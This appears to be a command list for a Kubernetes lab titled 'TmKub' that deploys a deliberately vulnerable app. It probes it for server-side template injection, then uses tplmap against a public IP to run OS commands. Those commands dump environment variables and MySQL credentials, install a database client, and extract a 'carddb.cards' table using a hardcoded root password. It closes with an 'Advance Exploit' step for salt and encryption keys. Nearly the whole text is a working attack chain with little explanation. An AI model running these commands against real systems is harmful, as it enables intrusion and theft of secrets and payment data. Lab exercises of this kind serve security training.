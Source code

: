 # TmKub


curl -sfL https://get.k3s.io | sh -

sudo kubectl get nodes


sudo kubectl apply -f template-injection-manifest.yml

sudo watch kubectl get pods

sudo kubectl get pods -o wide

sudo kubectl describe pods

sudo kubectl exec -ti mysql-db-568f6858f7-z5kkw -- bin/bash

http GET http://localhost:32345/not-found?page={{4*4}}

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv|grep MYSQL'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'apk update && apk add mysql-client'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "show tables from carddb;"'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "select * from carddb.cards;"'


Advance Exploit :

export SALT=<environment-SALT-value>Copy
  
export ENC_KEY=<environment-ENC_KEY-value>

sudo kubectl delete -f template-injection-manifest.yml
